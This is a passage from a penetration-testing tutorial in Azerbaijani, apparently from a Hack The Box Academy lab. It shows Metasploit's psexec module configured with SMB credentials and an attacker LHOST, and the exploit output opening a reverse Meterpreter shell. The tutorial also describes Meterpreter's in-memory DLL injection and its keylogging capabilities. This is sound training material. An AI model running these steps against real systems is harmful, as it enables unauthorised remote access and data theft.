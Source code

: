 Bu, Metasploit-in istifadə rahatlığı baxımından parladığı sahələrdən biridir. Modul seçimlərinin çıxışında biz hər bir parametrin nə demək olduğunu təsvir edən müxtəlif seçimləri və ayarları görürük. Biz bu bölmədə **SERVICE\_DESCRIPTION**, **SERVICE\_DISPLAY\_NAME** və **SERVICE\_NAME**-dən istifadə etməyəcəyik. Diqqət edin ki, bu xüsusi exploit **Meterpreter** istifadə edərək **reverse TCP** shell bağlantısından istifadə edəcək. Bir Meterpreter shell, bu modulun əvvəlki bölmələrində müəyyən etdiyimiz kimi, təmiz (raw) bir TCP reverse shell-dən daha çox funksionallıq verir. Bu, Metasploit-də istifadə edilən defolt payloaddır.

Aşağıdakı parametrləri konfiqurasiya etmək üçün **set** əmrindən istifadə edəcəyik:

#### Seçimlərin Təyin Edilməsi

```bash
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

Bu parametrlər payloadımızın düzgün hədəfə (**RHOSTS**) çatdırılmasını, etimadnamələrdən (**SMBPass** və **SMBUser**) istifadə edərək defolt inzibati paylaşmaya (**ADMIN$**) yüklənməsini və sonra yerli host maşınımızla (**LHOST**) **reverse shell** bağlantısı başlatmasını təmin edəcək.

Bu parametrlər hücum qutunuzdakı və hədəf qutunuzdakı IP ünvanına, eləcə də bir iş zamanı toplaya biləcəyiniz etimadnamələrə xüsusi olacaq. **LHOST** (yerli host) VPN tunel IP ünvanını və ya VPN tunel interfeys ID-sini təyin edə bilərik.

#### Exploit-i Başlamaq

```bash
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter >
```

**exploit** əmrini verdikdən sonra, exploit işə salınır və Meterpreter payloadından istifadə edərək payloadı hədəfə çatdırmağa cəhd edilir. Gördüyünüz çıxışda Metasploit bu prosesin hər addımını geri bildirir. Bunun uğurlu olduğunu bilirik, çünki bir **stage** uğurla göndərildi, bu da bir Meterpreter shell seansını (`meterpreter >`) və sistem səviyyəli shell seansını yaratdı. Unutmayın ki, Meterpreter, bir hücum qutusu ilə hədəf arasında gizli şəkildə bir rabitə kanalı yaratmaq üçün yaddaş daxilində (in-memory) DLL inyeksiyasından istifadə edən bir payloaddır. Düzgün etimadnamələr və hücum vektoru bizə faylları yükləmək və endirmək, sistem əmrlərini icra etmək, keylogger işlətmək, xidmətləri yaratmaq/başlatmaq/dayandırmaq, prosesləri idarə etmək və daha çox imkan verir.
